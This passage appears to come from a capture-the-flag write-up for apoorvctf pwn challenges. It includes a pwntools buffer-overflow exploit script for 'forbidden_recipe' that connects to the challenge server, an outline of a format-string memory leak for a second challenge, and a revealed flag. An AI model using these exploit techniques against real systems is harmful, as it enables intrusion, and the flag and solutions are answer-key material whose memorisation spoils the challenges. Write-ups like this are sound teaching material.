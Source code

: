 2. Vulnerability:
   - Buffer overflow in the `vuln()` function
   - Need to set specific values: `0xc0ff33` and `0xdecafbad`

3. Exploit:
```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('./forbidden_recipe')

if args.REMOTE:
    p = remote('chals1.apoorvctf.xyz', 3002)
else:
    p = process(elf.path)

p.recvuntil(b"Barista: 'I remember you... what will it be this time?'")
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\xad\xfb\xca\xde3\xff\xc0\x00'
p.sendline(payload)
print(p.recv())
p.interactive()
```

## Kogarashi Café - The Secret Blend

**Category:** Pwn  
**Author:** _proximuz_

### Challenge Description
A 32-bit ELF binary that reads a flag file and has a format string vulnerability.

### Solution

1. Binary Analysis:
   - 32-bit LSB executable
   - No stack canary
   - NX enabled
   - No PIE

2. Vulnerability:
   - Format string vulnerability in `printf(local_74)`

3. Solution:
   - Use format string specifiers to leak memory
   - Convert leaked values from hex to ASCII
   - Reconstruct the flag by changing endianness

**Flag:** `apoorvctf{Th3_M3nu_L34ks_M0re_Than_It_Sh0uld}`

## Holy Rice (Original Writeup)

![Holy Rice Challenge](/assets/images/holy_rice.png)
